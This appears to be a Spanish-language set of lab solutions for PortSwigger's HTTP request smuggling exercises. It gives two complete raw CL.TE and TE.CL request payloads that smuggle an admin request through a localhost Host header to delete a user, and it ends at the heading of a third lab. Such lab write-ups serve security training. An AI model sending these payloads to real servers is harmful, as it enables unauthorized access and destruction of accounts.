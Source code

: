 ### [Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)

#### Solución:

Enviar 2 veces la siguiente request (desactivar "Update Content-Length" de Burp Repeater):

```
POST / HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 91
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 30

foo
```

### [Exploiting HTTP request smuggling to bypass front-end security controls, TE.CL vulnerability](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)

#### Solución:

Enviar 2 veces la siguiente request (desactivar "Update Content-Length" de Burp Repeater y mantener los 2 saltos de línea del final):

```
POST / HTTP/1.1
Host: LABID.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

6C
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Length: 4
Transfer-Encoding: chunked

0


```

### [Exploiting HTTP request smuggling to reveal front-end request rewriting](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting)
